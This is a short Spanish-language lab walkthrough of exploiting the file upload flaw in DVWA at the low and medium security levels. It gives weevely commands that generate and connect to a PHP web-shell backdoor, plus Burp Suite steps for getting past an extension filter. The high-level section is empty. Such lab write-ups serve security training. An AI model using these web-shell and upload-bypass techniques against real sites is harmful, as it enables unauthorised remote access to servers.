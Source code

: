 # FILE UPLOAD VULNERABILITY

Es la forma de subir un archivo malicioso a una pagina web en algun lugar que permita la subida de archivos.

Herramientas a usar:

* weevely
* burpsuite

## Security level LOW

Al parecer no valida la extension del archivvo que se puede subir

Con weevely se puede crear un archivo para obtener un acceso remoto siempre  cuando sepas donde se guarda ese archivo. (Ruta en el navegador)

```
weevely generate 12345 reverse_shell.php
```

12345 es la contraseña del archivo

subimos el archivo generado y nos conectamos con:

```
weevely http://192.168.112.128/dvwa/hackable/uploads/reverse_shell.php 12345 
```

Es por eso que se debe conocer la ruta en donde se encuentra el archivo subido


## Security level MEDIUM

Debemos usar burpsuite para cambiar la extension y bypasear ese filtro

- iniciamos burpsuite
- cambiamos la extension del archivo en php a jpg
- subimos el archivo
- dentro de burp cambiamos la extension a php
- reenviamos la peticion

Ahora podemos usar este comando

```
weevely http://192.168.112.128/dvwa/hackable/uploads/reverse_shell.php 12345
```

## Security level HIGH


